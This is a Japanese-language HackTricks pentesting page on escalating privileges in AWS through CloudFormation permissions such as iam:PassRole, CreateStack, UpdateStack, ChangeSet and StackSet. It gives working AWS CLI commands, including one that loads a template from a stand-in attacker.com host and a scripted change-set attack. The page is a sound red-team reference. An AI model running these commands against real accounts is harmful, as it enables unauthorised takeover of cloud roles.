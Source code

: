 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

cloudformationに関する詳細情報は、以下を確認してください：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限の下でアクションを実行するために、サーバーにホストされたカスタムテンプレートを使用して** **CloudFormationスタック**を作成することにより、**権限を昇格させることができます**：
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ **エクスプロイト例** があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響:** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、**既存のcloudformationスタックを悪用**して、それを更新し、前のシナリオのように権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` パーミッションは、**スタックに対して `UpdateStack` パーミッションを与える**ために使用でき、攻撃を実行します。

**潜在的な影響:** 指定された cloudformation サービスロールへのプライバシー昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

このパーミッションを持っているが、**`iam:PassRole` がない場合**でも、**使用されているスタックを更新**し、**すでに添付されている IAM ロールを悪用**することができます。更新時にロールを示さないでくださいという前のセクションのエクスプロイト例を確認してください。

`cloudformation:SetStackPolicy` パーミッションは、**スタックに対して `UpdateStack` パーミッションを与える**ために使用でき、攻撃を実行します。

**潜在的な影響:** すでに添付されている cloudformation サービスロールへのプライバシー昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ロールを**渡し、ChangeSet を作成および実行する**権限を持つ攻撃者は、**新しい cloudformation スタックを作成/更新し、cloudformation サービスロールを悪用**することができます。これは CreateStack または UpdateStack と同様です。

以下のエクスプロイトは、**ChangeSet パーミッションを使用してスタックを作成する**[ **CreateStack のバリエーション**](./#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `ChangeSet` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡さずに行うため、**すでにアタッチされているロールを悪用**することができます。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的影響:** すでにアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用してStackSetsを作成/更新し、任意のcloudformationロールを悪用する可能性があります。

**潜在的影響:** cloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用し、StackSetsを更新してアタッチされたcloudformationロールを悪用する可能性があります。

**潜在的影響:** アタッチされたcloudformationロールへの権限昇格。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
